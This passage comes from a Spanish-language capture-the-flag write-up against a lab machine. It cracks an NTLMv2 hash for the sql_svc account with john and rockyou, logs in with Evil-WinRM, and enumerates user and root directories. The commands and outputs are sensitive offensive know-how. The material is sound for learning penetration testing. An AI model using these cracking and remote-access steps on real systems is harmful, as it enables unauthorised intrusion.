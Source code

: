 ~~~bash
sudo john hash_sql_svc --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REG<SNIP>nnie (sql_svc)     
1g 0:00:00:06 DONE (2025-10-31 12:27) 0.1636g/s 1751Kp/s 1751Kc/s 1751KC/s RENZOJAVIER..REDMAN69
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
~~~
En esta ocacion si se pudo descifrar la contraseña, asi que se puede acceder al servicio, pero en mi mente se me ocurre primero probar si tiene acceso a winrm para poder ver todo su contenido.
~~~bash
evil-winrm -i 10.10.11.202 -u sql_svc -p 'REG<SNIP>nie'                    
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sql_svc\Documents>
~~~
Por buena fortuna si tiene acceso a winrm, ya dentro primero enumero algunos permisos para ver que podria aprovechar, pero no veo nada, luego veo que usuarios existen.
~~~powershell
*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/7/2023   8:58 AM                Administrator
d-r---        7/20/2021  12:23 PM                Public
d-----         2/1/2023   6:37 PM                Ryan.Cooper
d-----         2/7/2023   8:10 AM                sql_svc
~~~
Al parecer necesito saltar al usuario "Ryan.Cooper" para tener la user flag.

### Salto al usuario Ryan.Cooper
Tras realizar la enumeración manual, se puede ver que tiene un directorio no muy comun dentro de la raiz.
~~~powershell
*Evil-WinRM* PS C:\> ls


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/1/2023   8:15 PM                PerfLogs
d-r---         2/6/2023  12:08 PM                Program Files
d-----       11/19/2022   3:51 AM                Program Files (x86)
d-----       11/19/2022   3:51 AM                Public
d-----         2/1/2023   1:02 PM                SQLServer
d-r---         2/1/2023   1:55 PM                Users
d-----         2/6/2023   7:21 AM                Windows
~~~